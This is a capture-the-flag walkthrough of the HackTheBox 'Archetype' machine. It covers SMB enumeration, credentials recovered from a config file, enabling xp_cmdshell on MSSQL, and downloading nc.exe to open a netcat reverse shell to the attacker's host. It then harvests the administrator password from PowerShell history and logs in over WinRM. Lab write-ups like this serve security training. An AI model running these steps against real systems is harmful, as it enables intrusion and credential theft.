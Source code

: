 # HACKTHEBOX - Archetype

**nmap scan**: sudo nmap -v -sV -sC -oN nmap.txt $IP
```
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
........
|_SHA-1: 54e6 8e48 de5f 3fa3 c183 0641 b4d0 9080 8c15 78a2
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
......
```

Ok, let's connect to SMB on port 445:

```bash
smbclient -L $IP
# backups         Disk

# Connect to SMB share
smbclient \\\\$IP\\backups
```

**file found**: `prod.dtsConfig`
```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```
**Credentials found**: `Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc`, this credential is from sql server, try using this to connect to MSSQL Server with impacket.

```bash
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket && cd /opt/impacket
sudo docker build . -t impacket
sudo docker run -it impacket #? /bin/bash
# .....

# Using mssqlclient from impacket to connect to Microsoft SQL Server
mssqlclient -p 1433 ARCHETYPE/sql_svc:M3g4c0rp123@10.129.185.63 -windows-auth
```

**Procedures to get Reverse Shell**:
```bash
help # what procedures do you have?
enable_xp_cmdshell # xp_cmdshell for RCE
xp_cmdshell powershell curl [kali-tun0]/nc.exe -o C:\\Users\Public\nc.exe
xp_cmdshell powershell C:\\Users\Public\nc.exe -e cmd.exe [kali-tun0] 8888 # reverse-shell here!!
```

Using winPEAS to enumerate machine in order to find way to priviledge escalation
**file contain admin password found**:
```bash
powershell ./winPEAS.exe
# found: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**credential found**: `\\Archetype\backups /user:administrator MEGACORP_4dm1n!!`

Ok, first thing first, find user flag:
```bash
where -r c:\\ *.txt 
# found: c:\Users\sql_svc\Desktop\user.txt
type c:\Users\sql_svc\Desktop\user.txt
```

**user flag**: `HTB{3e7b102e78218e935bf3f4951feXXXXX}`

Because we don't have(don't know how to get) interactive shell so we can't supply password for `runas`(cannot one line either) cmd command!!, windows don't directly have a way to switch to another account in shell.

**Remote??**: What to do?? test windows remote port
```bash
nmap -p 3389 -v 10.129.185.63
# PORT     STATE  SERVICE
# 3389/tcp closed ms-wbt-server

nmap -v -p 5985,5986 10.129.185.63
# PORT     STATE  SERVICE
# 5986/tcp closed wsmans
# 5985/tcp open  wsman
```
yes, yes, yes, WinRM, remote management in CLI(GUI RDP port 3389)!!
```bash
evil-winrm -i 10.129.185.63 -p 5985 -u administrator -p MEGACORP_4dm1n!!
# success!!
type C:\\Users\Administrator\Desktop\root.txt
```

**root flag**: `HTB{b91ccec3305e98240082d4474b8XXXXX}`
